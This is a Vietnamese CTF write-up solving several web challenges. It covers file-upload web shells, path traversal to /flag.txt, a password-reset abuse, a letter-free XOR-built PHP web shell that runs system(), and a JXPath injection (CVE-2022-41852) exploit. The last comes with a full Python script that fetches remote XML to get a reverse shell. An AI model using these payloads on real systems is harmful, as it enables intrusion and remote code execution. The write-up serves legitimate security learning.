



# All Challenge

## 1. Upload File 1

### Liệt kê
- Trang mục lục:

- Tới đây mình sẽ upload 1 file hình ảnh chuẩn vào, sau khi upload xong nó chuyển hướng đến thành công phần upload

- Nói như trên các chỗ này thường xảy ra lỗ hổng upload file mình tiến hành vào burpsuite để giải quyết thay đổi upload web shell.

- Tới đây mình đã bỏ qua được phần mở rộng và upload được shell php lên tới đây get content ra thì được như sau:

- Bypass thành công thì chỉnh sửa payload xem file flag nằm đầu ? Sau khi sửa đổi lệnh <b>ls</b> để dò file flag thì chúng ta nhìn thấy:

- Cùng trích xuất flag ta thu được:

-> Flag: <b>VSL{upl04d3d_th3_m4lw4r3_i2nfnvu39fjd}</b>
## Beach Shop 0
- Description: Cái nóng của mùa hè đã khiến @ph4nt0m không chịu nổi. Để chống lại cái nóng này, @ph4nt0m đã quyết định đi biển. Trước khi ra đến biển, anh ấy đã ghé qua các shop online để mua kính bơi, và thật tình cờ điều này đã đưa anh ấy đến một chuỗi lỗ hổng nghiêm trọng trong trang web này :>
Good luck ae để tìm được nhiều bug như @ph4nt0m
Note: Flag nằm ở /flag.txt
- Trang mục lục: Khi truy cập vào trang web thấy 1 trang web đẹp mát mẻ với cái nóng mùa hè 

- Tới đây truy tìm manh mối ở hình ảnh thì phát hiện được đường dẫn : view-source:http://61.14.233.78:5000/images?file=surfboard.jpg
- Theo như kinh nghiệm hay làm thì tuyến đường file này dễ bị path travelsal với hint ở đề bài flag nằm /flag.txt
- Thì payload mình như sau: ../../../../../../flag.txt
- Thu được Flag cuối cùng: <b>VSL{b34ch_sh0p4th_tr4v3rs4l_2idmwiq9@39!}</b>
## Watch Store
- Description: Mùa hè này, du lịch là điều hiển nhiên. @ph4n10m quyết định mua một đồng hồ để có thể flex các em gái khi đi du lịch. @ph4n10m ghé thăm một trang web nổi tiếng về đồng hồ. Sự tình cờ này lại đem đến một bất ngờ nữa.
@ph4n10m quyết định sẽ để bất ngờ này lại cho bạn khám phá
- Và câu này do team ra nên writeup chi tiết tại đây: https://hackmd.io/@AnhFuck/SkHov-gQge
## Beach Shop - Old Challenge
- Description: Nếu bạn thấy nó quen thuộc thì bạn thực sự là một hacker lâu năm của VSL đấy :3. Chúc may mắn nhé! (Tài khoản test: guest/guest)
- Trang mục lục:

- Khi truy cập trang chủ, mình phát hiện có tính năng đăng nhập và đăng ký. Thử đăng ký với username admin → hệ thống báo tài khoản đã tồn tại.

- Nhận thấy tài khoản admin này đã tồn tại và tôi nhớ ra challenge này có mã nguồn của năm trước và tôi tìm được mã nguồn và phân tích và đi vào khai thác.

- Ở tuyến đường này ở index trang nó sẽ lưu username đăng nhập vào session

- Ở tuyến đường này tức là khi chúng ta truy cập được admin thì chúng ta sẽ truy xuất flag sẽ hiển thị ở profile. Bây giờ chúng ta cùng tập trung ở tuyến đường khôi phục mật khẩu ở tk admin


- Ở đây nó sẽ đọc tất cả các file trong thư mục username/questions
- Bây giờ mục tiêu khôi phục mật khẩu của admin thì mục tiêu phải đọc <b>home/admin/questions</b> vậy thì chức năng đăng kí cho phép điều đó

- Ở tuyến đường register này tức khi đăng kí nếu chưa từ khóa password thì nó không cho phép ngăn chặn truy cập password.txt. mình sẽ ghi file này vào <b>/home/admin/questions</b> để từ đó khi reset mình trỏ file này và nội dung mình cũng đã biết.
- Vậy làm cách nào để có file <b>/home/admin/questions/password.txt</b> thì mục tiêu là chúng ta cần đăng kí 1 username admin/questions với question answer tự đăng kí
- Sau đó vào chức năng khôi phục password trên web với tên admin


- Chúng ta đã khôi phục thành công password tài khoản admin

- Bây giờ chúng ta cùng đăng nhập với tài khoản admin

## brainrot
- Author: d4kw1n. Mô tả của thử thách:

### Liệt kê
- Đầu tiên chúng ta cùng truy cập vào trang web tương ứng với url: http://61.14.233.78:8888

- Tại đây ở trang web xuất hiện với những mô tả mà author đưa ra nói về những toán học kèm theo phần có thể upload 1 file lên thì đầu tiên thấy upload file mình nghỉ đến ngay là upload một hình ảnh và thực hiện RCE như thường lệ nhưng cuộc đời mà chắc có gì dễ dãi đến vậy =))). Sau khi upload 1 hình ảnh thì nó trả về như sau:

- Nói rằng ko được phép upload hình ảnh có chữ cái tức là những: File chứa ký tự alphabet (a-zA-Z), không được phép upload. Sau một hồi mình cứ ngồi mày mò tìm payload trên payloadAllTheThing thì không có gì xảy ra vì mỗi webshell đều có kí tự chữ cái.
- Và mình nghỉ rằng là hầu hết các WAF lọc rất nhiều ký tự có sẵn khiến việc khai thác trở nên khó khăn hơn. Và trong đó các Các ký tự phổ biến bị chặn hoặc lọc là a-zA-Z. Lúc đầu đã có những shell không phải chữ và số nhưng những shell tôi thấy đều có một điểm chung là chúng cần dấu ngoặc kép để tạo thành một chuỗi một lần để tạo ra các chữ cái từ chuỗi đó.
- Sau quá trình tìm kiếm một số case tầm khoảng 2-3h đồng hồ tôi phát hiện được 1 shell có thể bao gồm toàn kí tự chữ số và kí tự đặc biệt không có chữ cái và có thể vượt qua bộ lọc của server.
### Khai thác
```php
<?=$_=[]..1;$_=$_[1].$_[1].$_[1].$_[3]^-575..-1;$$_[0]($$_[1]);
```
- Ở payload này theo như tìm hiểu của mình và có sự hỗ trợ của chat gpt thì mình được hiểu là payload này nó sử dụng xây dựng tên hàm "system" thông qua phép XOR và toán tử đặc biệt sau đó thực thi lệnh từ $_GET[1] mà không gọi trực tiếp từ khóa bị cấm nào. Mnguoi có thể tìm hiểu payload trên ở gg để hiểu rõ hơn nữa.
- RỒi bây giờ để chắc chắn hơn mình sẽ kiểm tra chúng xem có kí tự chữ cái ko.

- Kết quả đầu ra không hiển thị chữ cái chứng tỏ mình đã vượt qua điều đó và ở phần upload này nó không kiểm tra định dạng file upload nên mình sẽ lưu payload trên để upload file php.

- Chúng ta đã vượt qua được bộ lọc bây giờ có thể RCE

- Xảy ra lỗi Array to string conversion và sau khi tìm hiểu chúng ta có thể được khắc phục bằng cách thêm <b>@</b> vào phần truy vấn mong muốn thực hiện ép kiểu.
- Payload cuối cùng:
```php
<?=@$_=[]..1;$_=$_[1].$_[1].$_[1].$_[3]^-575..-1;$$_[0]($$_[1]);
```

- Rồi thực hiển RCE với param payload ?0=system&1=id thực thi id thông qua system ở param 1

- Rồi bây giờ mục tiêu cờ ở đâu cùng thực hiện ls / để xem file cờ.


-> Flag: <b>VSL{7e56ae1036160bceaedde8032663810308bd57c1}</b>
## TechStore

- Ở challenge này sau khi kết thúc giải mình mới giải ra vì trong quá trình giải diễn ra mình đã đi sai hướng.
- Đầu tiên chúng ta cùng truy cập trang web:
### Liệt kê

- Khi truy cập vào trang web trang hiển thị một trang web bán laptop trực tuyến với 2 chức năng đăng kí và đăng nhập tới đây mình thư đăng kí một tài khoản và đăng nhập xem nó diễn ra như thế nào?
- Sau khi đăng nhập xong nó chuyển hướng đến một profile cá nhân của mình:

- Ở đây phía dưới mình có thấy chỉnh sửa profile với chức năng upload avatar thì mình nghĩ có lẽ nào có lỗ hổng upload file nhưng không sau mọi lần thử thì nó chỉ dowload nội dung về máy?. Sau khi upload hình ảnh nó sẽ trả về như sau:

- Đề bài có cho mã nguồn chúng ta cùng phân tích mã nguồn để hiểu sâu hơn về challenge
- Mã nguồn rất dài nên sau vài tiếng ngồi đọc phân tích với sự hỗ trợ chatgpt nữa nên mình sẽ tập trung các nội dung lỗ hổng chính. Ở đây sẽ tập trung vào tuyến Avatar của user
- Ở Controller UserController.

- Khi tôi đọc tới đây tôi thấy JXPath tôi đã tự học JXPath là gì sau quá trình tìm thì ở source code author có để một file pom.xml

- Thì phát hiện được đây là một CVE về JXPath Injection  ở mã trên ở phần <b>typeX</b> nó không được kiếm soát đầu vào bằng cách đó kẻ tấn công có thể Injection vào tuyến typeX này để kích hoạt thông qua giá trị getValue vậy bây giờ làm sao mới biết injection typeX này ở đâu.

- Thì ở Model avatar có 2 thuộc tính getter và setter của typeX này chúng ta có thể truyển chúng vào tuyến đường Avatar này thông qua <b>/api/avatars/{avatarId}</b>
- Thật may mắn là ở tuyến đường này có chức năng put

- Chúng ta có thể lợi dụng để cập nhật typeX thông qua tuyến đường này và sau khi cập nhật xong thì chúng ta ta có thể post ở tuyến này để kích hoạt typeX 

- Rồi sau khi phân tích cụ thể như trên có thể tóm tắt các bước khai thác:
1. Đăng kí 1 tài khoản upload 1 hình ảnh và upload 1 file hình ảnh lấy avatar_id
2. Đã có avatar_id có thể sử dụng <b>PUT /api/avatar/avartar_id</b> để cập nhật biến typeX 
3. Sau khi cập nhật xong chúng ta có thể sử dụng <b>POST /api/avatars/{avatarId}/set-primary</b> để kích hoạt typeX tương đương với tải trọng đưa vào.
- Sau khi đã biết được đây là một <b>CVE JXPath</b> tôi đã tìm thấy được tải trọng thông qua trang github <a href="https://github.com/Warxim/CVE-2022-41852.git">CVE-2022-41852</a> 
### Khai thác
- Đầu tiên tôi sẽ lưu một tải trọng RCE file XML lưu ở dạng raw để inject vào biến typeX
<a href="https://gist.githubusercontent.com/Capt-Webk5/11d48a792046d7a19eb270768ca4f6ec/raw/40ded203fc77c32fc3ddb05196325e7079ff3e53/RCE.xml"> Payload XML Tại Đây </a> 
- Tôi sẽ thiết lập một con ngrok tcp

- Tới đây tôi sẽ thiết lập một trình lắng nghe nc để nhận revershell 

- Sau khi setup hết thì chúng ta cùng kick hoạt typeX. Tới đây đễ dễ quá trình tự động hóa tôi đã viết một tập lệnh python với cùng sự hỗ trợ của chatGPT.

```python
import requests
import re
import sys
import time

URL_CHALLENGE = "http://61.14.233.78:8082"
username = "vanphuc"
password = "vanphuc"
AVATAR_FILE_UPLOAD = "solve1.png"
PAYLOAD_RCE_XML = "https://gist.githubusercontent.com/Capt-Webk5/11d48a792046d7a19eb270768ca4f6ec/raw/40ded203fc77c32fc3ddb05196325e7079ff3e53/RCE.xml"
session = requests.session()
RCE_PAYLOAD = f'org.springframework.context.support.ClassPathXmlApplicationContext.new("{PAYLOAD_RCE_XML}")'

def get_csrf_token(path="/login"):
    r = session.get(URL_CHALLENGE + path)
    token = re.search(r'name="_csrf" value="([^"]+)"', r.text)
    if token:
        return token.group(1)
    meta = re.search(r'<meta name="_csrf" content="([^"]+)"', r.text)
    if meta:
        return meta.group(1)
    print("[x] CSRF Token Not Found!")
    sys.exit(1)

# Login
def login():
    csrf = get_csrf_token("/login")
    print("[+] CSRF Token (Login): ", csrf)
    data = {
        "username": username,
        "password": password,
        "_csrf": csrf
    }
    r = session.post(URL_CHALLENGE + "/login", data=data, allow_redirects=False)
    if r.status_code == 302:
        print("[+] Loggin SuccessFully")
    else:
        print("[!] Login Failed")
        sys.exit(1)

# Upload Hình ảnh
def upload_avartar():
    csrf = get_csrf_token("/avatar-manager")
    print("[+] CSRF Token Avatar Manager: ", csrf)
    with open(AVATAR_FILE_UPLOAD, "rb") as f:
        files = {"file": (AVATAR_FILE_UPLOAD, f, "image/png")}
        headers = {
            "X-CSRF-TOKEN": csrf,
            "X-Requested-With": "XMLHttpRequest"
        }
        r = session.post(URL_CHALLENGE + "/api/upload-file", files=files, headers=headers)
        try:
            res = r.json()
        except Exception as e:
            print("[-] Upload Avartar Failed: ", str(e))
            print(r.text)
            sys.exit(1)
        if res.get("success"):
            avatar_id = res["avatarId"]
            print("[+] Upload Avatar ID: ", avatar_id)
            return avatar_id
        else:
            print("[-] Upload failed:", res.get("message"))
            sys.exit(1)

def injection_payload_trigger(avatar_id, payload):
    csrf = get_csrf_token("/avatar-manager")

    # Đưa payload vào typeX thông qua PUT
    URL_PUT = f"{URL_CHALLENGE}/api/avatars/{avatar_id}"
    data = {
        "typeX": payload,
        "isPrimary" : True
    }
    headers = {
        "Content-Type": "application/json",
        "X-CSRF-TOKEN": csrf,
        "X-Requested-With": "XMLHttpRequest"
    }
    r = session.put(URL_PUT, json=data, headers=headers)
    print("[+] Payload Injection SuccessFully")

    # Thực hiện trigger
    URL_TRIGGER = f"{URL_CHALLENGE}/api/avatars/{avatar_id}/set-primary"
    r = session.post(URL_TRIGGER, headers=headers)
    try:
        res = r.sjon()
    except Exception as e:
        print("[-] Trigger Failed!", str(e))
        print(r.text)
        return
    print("[*] Response Return: ", res)
    if res.get("success") and "mainAvatarName" in res:
        print("[🎯] RESULT:", res["mainAvatarName"])
    else:
        print("[-] Trigger Executed")

if __name__ == "__main__":
    print("[+] Login Nào:....")
    login()

    print("[+] Upload Avatar")
    avatar_id = upload_avartar()
    time.sleep(2)

    print("\n[+] Injection RCE Payload And Trigger RCE")
    injection_payload_trigger(avatar_id, RCE_PAYLOAD)
```
- Sau khi tôi thực hiện chạy mã python trên. và kiểm tra trình lắng nghe

- Tôi đã thành công bypass và có thể chiếm quyền 

- Tới đây cùng thực hiện ls / xem các thư mục 

- Thực hiện truy xuất FLAG: 

-> Flag : <b>VSL{JXP4TH_RC3_VULN3RABIL1TY_t0_g3t_th3_fl4g_222kf0m@@3!%m}</b>